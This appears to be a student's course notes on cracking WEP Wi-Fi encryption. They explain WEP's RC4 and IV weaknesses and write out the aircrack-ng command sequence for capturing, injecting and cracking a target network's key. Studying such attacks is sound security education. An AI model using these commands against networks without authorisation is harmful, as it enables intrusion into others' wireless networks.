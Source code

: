 # Day 5 – WEP Cracking

📚 **Completed:** Section 6 of Zaid’s Ethical Hacking Course  
🎯 **Topic:** WEP Cracking (Pre-Shared Key Attacks on Wi-Fi)

## 🧠 What I Learned:
- **WEP (Wired Equivalent Privacy)** is an outdated encryption protocol used in Wi-Fi security.
- It uses weak **RC4 encryption**, which is vulnerable due to **static keys** and **predictable IVs (Initialization Vectors)**.
- WEP networks can be cracked by capturing enough data packets and using tools to analyze them.
- 
## 🛠️ Tools Used in Theory:
| Tool | Purpose |
|------|---------|
| `airmon-ng` | Enables monitor mode on wireless interface |
| `airodump-ng` | Captures packets & identifies WEP networks |
| `aireplay-ng` | Injects fake packets (ARP replay) to speed up capture |
| `aircrack-ng` | Cracks the WEP key from captured `.cap` files |

## 🔐 Steps (Theory Only):
1. **Enable Monitor Mode:**
2. airmon-ng start wlan0
3. **Capture Packets:**
4. airodump-ng wlan0mon
airodump-ng -c [channel] --bssid [target_BSSID] -w capture wlan0mon
3. **Fake Authentication & ARP Injection:**
aireplay-ng -1 0 -a [BSSID] wlan0mon
aireplay-ng -3 -b [BSSID] wlan0mon
4. **Crack WEP Key:**
aircrack-ng capture-01.cap

## 🖼️ Screenshot:
_N/A – No wireless adapter available for practice._

## 🧩 Summary:
Even though I couldn’t practice the commands, I understood the **full WEP cracking workflow**, its tools, and the **vulnerability** that makes WEP insecure.  
This forms the **base for real-world Wi-Fi attacks** later.




